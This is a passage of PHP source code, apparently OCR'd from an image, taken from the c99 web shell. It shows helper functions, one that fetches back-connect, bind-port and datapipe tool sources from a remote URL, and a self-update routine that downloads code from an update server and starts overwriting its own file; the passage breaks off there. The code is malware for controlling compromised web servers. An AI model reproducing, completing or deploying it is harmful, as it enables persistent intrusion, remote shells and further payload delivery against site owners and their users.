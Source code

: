 if (!function_exists("parsesort")) 
{ 
function parsesort($sort) 
{ 
$one = intval($sort); 
$second = substr($sort,-1); 
if ($second != "d") {$second = "a";} 
return array($one,$second); 
} 
} 
if (!function_exists("view_perms_color")) 
{ 
function view_perms_color($o) 
{ 
if (!is_readable($o)) {return "&lt;font color=red&gt;".view_perms(fileperms($o))."&lt;/font&gt;";} 
elseif (!is_writable($o)) {return "&lt;font color=white&gt;".view_perms(fileperms($o))."&lt;/font&gt;";} 
else {return "&lt;font color=green&gt;".view_perms(fileperms($o))."&lt;/font&gt;";} 
} 
} 
if (!function_exists("c99getsource")) 
{ 
function c99getsource($fn) 
{ 
global $c99sh_sourcesurl; 
$array = array( 
  "c99sh_bindport.pl" =&gt; "c99sh_bindport_pl.txt", 
  "c99sh_bindport.c" =&gt; "c99sh_bindport_c.txt", 
  "c99sh_backconn.pl" =&gt; "c99sh_backconn_pl.txt", 
  "c99sh_backconn.c" =&gt; "c99sh_backconn_c.txt", 
  "c99sh_datapipe.pl" =&gt; "c99sh_datapipe_pl.txt", 
  "c99sh_datapipe.c" =&gt; "c99sh_datapipe_c.txt", 
); 
$name = $array[$fn]; 
if ($name) {return file_get_contents($c99sh_sourcesurl.$name);} 
else {return FALSE;} 
} 
} 
if (!function_exists("c99sh_getupdate")) 
{ 
function c99sh_getupdate($update = TRUE) 
{ 
$url = $GLOBALS["c99sh_updateurl"]."?version=".urlencode(base64_encode($GLOBALS["shver"]))."&updatenow=".($updatenow?"1":"0")."&"; 
$data = @file_get_contents($url); 
if (!$data) {return "Can't connect to update-server!";} 
else 
{ 
  $data = ltrim($data); 
  $string = substr($data,3,ord($data{2})); 
  if ($data{0} == "\x99" and $data{1} == "\x01") {return "Error: ".$string; return FALSE;} 
  if ($data{0} == "\x99" and $data{1} == "\x02") {return "You are using latest version!";} 
  if ($data{0} == "\x99" and $data{1} == "\x03") 
  { 
   $string = explode("\x01",$string); 
   if ($update) 
   { 
    $confvars = array(); 
    $sourceurl = $string[0]; 
    $source = file_get_contents($sourceurl); 
    if (!$source) {return "Can't fetch update!";} 
    else 
    { 
     $fp = fopen(__FILE__,"w"); 